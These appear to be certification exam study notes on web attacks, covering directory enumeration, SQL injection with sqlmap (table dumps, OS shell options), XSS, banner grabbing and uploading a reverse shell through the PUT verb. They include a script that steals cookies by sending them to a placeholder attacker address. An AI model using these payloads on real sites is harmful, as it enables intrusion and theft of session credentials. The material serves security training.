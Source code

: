 ```yaml
---
description: no.... this is not a "how to hack your friends social media accounts" 101
---
```


# Web Attacks

## **Intro**

You're almost certainly guaranteed to come across some form of web based application that can be attacked in this exam. Web applications are also one of the biggest attack surfaces in the real world as well, so beginning to understand the concept of working with web technologies will serve you well. I highly recommend taking your time to work through this section of the course and become comfortable with the material and then revisiting it again once you're familiar with the terminology being used. 

![](../../.gitbook/assets/giphy-2-.gif)



## **Hidden directory & file enumeration**

while the course introduces dirb and dirbuster- I would recommend gobuster or dirsearch. dirbuster is fine if you like a GUI but dirsearch will give you basically the same results and, in my opinion, is easier to use. Check it out here: [https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)

### **Dirsearch**

```bash
python3 dirsearch.py -u <URL> -e <EXTENSIONS>
```

* quickly find the paths to hidden files, directories, etc on a domain
* I recommend looing for php, old, or conf extensions initially

### **gobuster**

```bash
gobuster dir <url> -w <wordlist>
```

* gobuster is another fan favorite that is notorious for being quick

## **SQL Injection \(SQLi\)**

sqli is another biggie here. I recommend really reading the ouput sqlmap and understanding what it is doing because testing sqli's by hand will always be necessary to validate what the tool discovers. sqlmap is a tool that is invaluable in your toolbelt solely based off the information it can provide to you if you know how to use it right. Half of the battle is identifying sql injection points so here is my thought process. 

1. Find points on the page that may need to query information stored somewhere else, like blog posts, articles, images, etc
2. click on the resource in question and then look for a parameter in the url or for a php page
   1. something alongs the lines of:
      1.  http://example.com/find.php?id=1234
3. once identified, use booleans after the operator to check the pages behavior
   1. http://example.com/find.php?id=1234' OR 1=2; -- -
4. If the output breaks then test a true condition:
   1. http://example.com/find.php?id=1234' OR 1=1; -- -
5. If the output comes back we have a sqli and can proceed to use tools to get further info

### **sqlmap**

```bash
sqlmap --wizard
```

* can be used to help if you're struggling with the CLI, but I highly advise against getting comfortable with this. It doesn't provide the same level of customizability and it's widly inconveneient. 

```bash
sqlmap -u <url w/ parameter> 
```

* should validate the sqli and if vulnerable give us some system details as well

```bash
sqlmap -u <url w/ parameter> --tables
```

* this dumps the table

```bash
sqlmap -u <url w/ parameter> --current-db <database name> --dump
```

* dumps all of the contents of the tables in that database

```bash
sqlmap -u <url w/ parameter> [--os-shell] or [--os-pwn] 
```

* os-shell and os-pwn allow the user to try to open a backend shell or a meterpreter shell respectively

## Cross-Site Scripting \(XSS\)

While this course doesn't present any tools for XSS, there are a few things to keep in mind:

* Persistent XSS: where the payloadd is embeded and stored on the page in some way shape or form. Think about someone posting a malicious payload into a tweet and then anytime anyone opens the tweet they are subject to malicious payload.
* Reflected XSS: the payload is carried in the input to the site. Think about encoding a malicious javascript snippet into a URL and then getting someone to click on the malicious link. 

Looking for XSS is a similar methodology to looking for SQLi, here are a few things that I look for:

1. identify input areas on a site, any spots where input could be potentially not sanitized
2. test input with html tags: &lt;h1&gt; Test &lt;/h1&gt;
3. test with javascript: 

```javascript
<script> alert('XSS'); </script> 
```

4. If this works then you can use the following js to steal cookies:

```javascript
<script> 
var i = new Image();
i.src = "http://your.own.IP.address/get.php?cookies=" += document.cookie;
</script>
```

* note, you would need to be hosting the corresponding get.php file on your own web server for that to work



## **Banner Grabbing & HTTP Verbs**

banner grabbing is the act of requesting the header information from a web application via an HTTP request to further enumerate what actions you can perform on the server. 

### **netcat**

```javascript
nc -vv x.x.x.x 80
HEAD / HTTP/1.1
```

```javascript
nc -vv x.x.x.x 80
OPTIONS / HTTP/1.1
```

* make sure to hit \[return/enter\] twice after the HTTP verb line

### **openssl**

this is used for the same purpose as netcat but for https commuincations that netcat does not support

```javascript
openssl s_client -connect x.x.x.x
HEAD / HTTP/1.1
```

```javascript
openssl s_client -connect x.x.x.x
OPTIONS / HTTP/1.1
```

### **abusing HTTP verbs \(netcat\)**

if the wrong http verbs are enabled for anyone by default, you can get away with a lot of things on a server- like uploading a reverse shell to the website. A trick for doing this is: 

* find reverse shell script from internet and adjust the IP and port

```javascript
wc rev-shell.php
> [#] rev-shell.php

nc -vv x.x.x.x 80
PUT /rev-shell.php
Content-type: text/html
Content-length: [#]
```

* where \[\#\] is the length that is output from the wc command initially









